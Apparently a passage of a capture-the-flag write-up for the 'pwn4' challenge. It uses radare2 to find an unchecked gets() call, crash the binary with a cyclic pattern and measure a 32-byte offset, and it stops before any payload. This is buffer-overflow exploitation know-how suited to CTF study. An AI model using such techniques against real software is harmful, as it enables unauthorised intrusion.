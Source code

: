 # write-up pwn4 (? p)
====

remote server found at `nc pwn.ctf.tamu.edu 4324`

--------

The binary use NX security mechanism: 

````python
[0x08048490]> i~arch,canary,nx,pic,relro
arch     x86
canary   false
nx       true
pic      false
relro    partial
````

Function `sym.main ()` has a function call to `sym.reduced_shell ()`

````python
[0x080485ef]> pdf
            ;-- eip:
┌ (fcn) sym.reduced_shell 404
│   sym.reduced_shell ();
│           ; var int INPUT @ ebp-0x1c
│           ; CALL XREF from 0x080487a8 (main + 37)
...
│           0x08048632      83c410         esp += 0x10
│           0x08048635      83ec0c         esp -= 0xc
│           0x08048638      8d45e4         eax = [INPUT]
│           0x0804863b      50             push eax                    ; char *s
│           0x0804863c      e8cffdffff     sym.imp.gets ()             ; char*gets(char *s)
````

Function `sym.reduced_shell ()` contains a `sym.imp.gets ()` call, with `local_1ch` variable, renamed to `INPUT`

````python
[0x080485ef]> afvd
var local_1ch = 0xffe4111c  0x080487a5  .... (LOAD0) (/home/vagrant/ctf/tamu18/pwn4/pwn4) main program R X 'add esp, 0x10' 'pwn4'
````

````python
[0x080485ef]> afvn local_1ch INPUT
````

Created a pattern using `ragg2 -P 300 -r > stdin` and reopen debugger.

````python
[0xf77b7030]> dc
I am a reduced online shell
Your options are:
1. ls
2. cal
3. pwd
4. whoami
5. exit
Input> Unkown Command

child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x41414c41 code=1 ret=0
````

````python
[0x41414c41]> wopO 0x41414c41
32
````

````python
[0x08048641]> dmi
0x08048000 /home/vagrant/ctf/tamu18/pwn4/pwn4
0xf754b000 /lib/i386-linux-gnu/libc-2.19.so
0xf7706000 /lib/i386-linux-gnu/ld-2.19.so
````

